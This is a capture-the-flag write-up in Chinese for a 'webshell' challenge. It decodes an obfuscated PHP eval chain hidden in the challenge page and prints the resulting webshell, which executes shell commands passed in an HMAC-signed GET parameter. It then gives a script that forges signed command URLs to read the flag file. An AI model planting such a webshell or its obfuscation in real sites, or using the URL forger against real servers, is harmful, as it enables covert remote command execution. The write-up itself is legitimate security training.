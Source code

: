 ## webshell (100)
Credits to my teammates.
### solution
先檢查原始碼，可以發現原始碼最底部藏了obfuscate過的PHP source code
```php
<?php $cation="St\x72\x5fr\x4ft\x313";
$e_obfus="b\x41Se\x364\x5f\x44e\x43ode";
$e_cod="g\x5ainfl\x41t\x45";
$sourc="St\x72\x72\x45v";
@eval($sourc($e_cod($e_obfus($cation("KMSqn8VjTVKi9lgrcMtH3V
qwT8jvb2vzjiltmKowKNt12dQTxxEDMC99voecmS
H4rKBrpkXVDwmC1yBbi0PV1IeQA0GuTWSr3Pqi3I
qTu92xznWEDw4FxeVNv4JpGewDovk8re57tTcMsM
nk5nVDzzyefSIFS7PQb7AnFMfcg3UBjvl4H/GnPx
/leZxlP/OFJYZ1cqYiHEDvWszvhYHoLnRhvv29gx
cLgJbveVKw5k4jEwAc0VvFAtiPzpZ6BwDnQKOltX
sF+JmSCVPdu0NI3qpr406XpZnKBpfAm+Rjhd9Z00
TUQFagaWJg8qmNQowQCzaUmVaiSlCBLL+VkfuOYe
A8+LkWdkHmDtp9xcmqB6H5OgyaqXK+gpWJTPBuHi
STW8OO9t13k2/7r+He8BfU")))));
```
先把hex string全部轉回character可以得到
```php
$cation="Str_r0t13";
$e_obfus="bASe64_DeCode";
$e_cod="gZinflAtE";
$sourc="StrrEv
```
可以得知是依序對`$cation()`內的字串做`str_rot13`,`base64_decode`,`gzinfalte`,`strrev`
因此可以利用以下方式還原出source code
```php
<?php
echo strrev(gzinflate(base64_decode(str_rot13("KMSqn8VjTVKi9lgrcMtH3V
qwT8jvb2vzjiltmKowKNt12dQTxxEDMC99voecmS
H4rKBrpkXVDwmC1yBbi0PV1IeQA0GuTWSr3Pqi3I
qTu92xznWEDw4FxeVNv4JpGewDovk8re57tTcMsM
nk5nVDzzyefSIFS7PQb7AnFMfcg3UBjvl4H/GnPx
/leZxlP/OFJYZ1cqYiHEDvWszvhYHoLnRhvv29gx
cLgJbveVKw5k4jEwAc0VvFAtiPzpZ6BwDnQKOltX
sF+JmSCVPdu0NI3qpr406XpZnKBpfAm+Rjhd9Z00
TUQFagaWJg8qmNQowQCzaUmVaiSlCBLL+VkfuOYe
A8+LkWdkHmDtp9xcmqB6H5OgyaqXK+gpWJTPBuHi
STW8OO9t13k2/7r+He8BfU"))));
?>
```
而source code為
```php
<?php
function run() {
	if(isset($_GET['cmd']) && isset($_GET['sig'])) {
		$cmd = hash('SHA512', $_SERVER['REMOTE_ADDR']) ^ (string)$_GET['cmd'];
		$key = $_SERVER['HTTP_USER_AGENT'] . sha1($_SERVER['HTTP_HOST']);
		$sig = hash_hmac('SHA512', $cmd, $key);
		if($sig === (string)$_GET['sig']) {
			header('Content-Type: text/plain');
			return !!system($cmd);
		}
	}
	return false
}

function fuck() {
	print(str_repeat("\n", 4096));
	readfile($_SERVER['SCRIPT_FILENAME']);
}

run() ?: fuck(); 
?>
```
若是`run()` return false則會輸出一堆換行然後輸出script本身的內容。

整理上方的限制後我們可以寫出以下script來產生webshell query用的url
```php
<?php
$remote_addr = MY_IP;
$command = 'pwd';
$cmd = hash('SHA512', $remote_addr) ^ $command;
$key = $_SERVER['HTTP_USER_AGENT'] . sha1('webshell.eof-ctf.ais3.ntu.st');
$sig = hash_hmac('SHA512', $command, $key);
$url = "http://webshell.eof-ctf.ais3.ntu.st/?cmd=" . urlencode($cmd) . "&sig=" . urlencode($sig);

echo "URL : <a href=" . $url . ">here</a>"
?>
```
試著`ls -a`會看到`flag`和`.htflag`，`flag`裡面什麼都沒有，而`.htflag`就是真正的flag了
